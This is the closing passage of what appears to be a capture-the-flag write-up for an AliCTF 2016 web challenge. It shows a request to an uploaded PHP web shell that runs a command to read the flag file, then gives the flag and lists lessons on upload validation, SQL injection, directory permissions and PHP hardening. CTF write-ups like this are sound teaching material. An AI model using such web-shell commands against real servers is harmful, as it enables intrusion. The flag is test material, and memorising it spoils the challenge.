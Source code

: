 ```
http://121.40.50.146/upload/20160606001836-payload.php?cmd=tac /flag_is_H3r3_sir
```

And the flag is:

```
alictf{nk2csizy7od2feyt5un4mx7s891gilf4}
```

![cmd_interface_flag](screenshots/cmd_interface_flag.png)

This is the end of a great web challenge which would be remembered
for a long time.


### lessons learned

Summarizing, each of the vulnerabilities are dangerous by itself,
but even fatal together. Remarks:

- It has nothing to do with the challenge, but this login / signup
captcha is useless because it can be solved automatically easily.
- An uploader for images should validate the uploadable files better.
Rather than blacklisting restricted types, but whitelisting allowed types.
- Everything should be done to avoid SQL injection, it can be
very dangerous. (See `mysqli_real_escape_string`.)
- World-writable directories are very dangerous even if it is just `/tmp`.
Setting strict permissions is a must for secure systems.
- Leaving unnecessary files in webroot may leak important
info about other vulnerabilites for attackers.
Unnecessary files should be cleaned out of the publicly available webroot.
- PHP 7 OPcache should be configured properly. The cache files
should be protected well. Insecure configuration may be fatal.
- PHP restrictions is not a real protection. There are too many
ways bypassing them. Do not trust in it itself. Securing PHP
environment should be done at OS level.


## writeups by teammates

[Corb3nik](http://corb3nik.github.io/alictf%202016/homework/)
